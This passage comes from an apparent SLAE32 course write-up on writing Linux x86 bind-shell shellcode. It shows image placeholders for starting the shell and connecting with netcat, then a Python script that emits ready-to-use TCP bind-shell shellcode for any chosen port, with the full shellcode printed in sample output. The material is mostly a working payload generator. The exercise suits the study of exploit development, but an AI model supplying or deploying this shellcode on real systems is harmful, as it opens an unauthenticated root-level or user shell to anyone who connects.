 **Start bindshell**<br/>
<img src="{{ site.url }}/images/slae32/01-04.png"/>

**Connect to it with netcat**<br/>
<img src="{{ site.url }}/images/slae32/01-05.png"/>

## Phase 4: Write a wrapper python script
Finally, to make it a little bit more configurable I wrote a python script that would allow you to specify a port for the shellcode.  The emmitted shellcode from the script will be properly updated for the port specified.

```python
# !/usr/bin/python
from optparse import OptionParser

def convert_to_hex(port):
    val = hex(port)[2::]
    if not len(val) % 2 == 0:
        val = "0" + val
    return ''.join('\\x' + val[i:i + 2] for i in range(0, len(val), 2))

parser = OptionParser()
parser.description = "Generates TCP Bind Shell shellcode."
parser.add_option("-p", "--port", dest="port", help="Port to bind to", type=int)

(options, args) = parser.parse_args()
if not options.port:
    parser.print_help()
    exit(1)

if options.port < 1 or options.port > 65535:
    print("Invalid port number.")
    exit(1)

shellcode = (
        "\\x31\\xc0\\x89\\xc3\\x50\\xb0\\x66\\xb3\\x01\\x53\\x6a\\x02\\x89\\xe1\\xcd"
        "\\x80\\x89\\xc7\\xb0\\x66\\x5b\\x5b\\x43\\x66\\x68" + convert_to_hex(options.port) +
        "\\x66\\x6a\\x02\\x89\\xe1\\x6a\\x10\\x51\\x57\\x89\\xe1\\xcd\\x80\\xb0\\x66"
        "\\xb3\\x04\\x6a\\x01\\x57\\x89\\xe1\\xcd\\x80\\xb0\\x66\\xfe\\xc3\\x52\\x52"
        "\\x57\\x89\\xe1\\xcd\\x80\\x31\\xc9\\x89\\xc3\\xb0\\x3f\\xcd\\x80\\xb0\\x3f"
        "\\x41\\x83\\xf9\\x02\\x7e\\xf6\\xb0\\x0b\\x31\\xd2\\x52\\x68\\x6e\\x2f\\x73"
        "\\x68\\x68\\x2f\\x2f\\x62\\x69\\x89\\xe3\\x89\\xd1\\xcd\\x80\\xb0\\x06\\x89"
        "\\xfb\\xcd\\x80")

print(shellcode)
```

### Example usage
```
[sengen@manjaro-x86 assignment1]$ python create_bind_shell.py -h
Usage: create_bind_shell.py [options]

Generates TCP Bind Shell shellcode.

Options:
  -h, --help            show this help message and exit
  -p PORT, --port=PORT  Port to bind to
[sengen@manjaro-x86 assignment1]$ python create_bind_shell.py -p 4480
\x31\xc0\x89\xc3\x50\xb0\x66\xb3\x01\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x5b\x5b\x43\x66\x68\x11\x80\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x6a\x01\x57\x89\xe1\xcd\x80\xb0\x66\xfe\xc3\x52\x52\x57\x89\xe1\xcd\x80\x31\xc9\x89\xc3\xb0\x3f\xcd\x80\xb0\x3f\x41\x83\xf9\x02\x7e\xf6\xb0\x0b\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80\xb0\x06\x89\xfb\xcd\x80
```
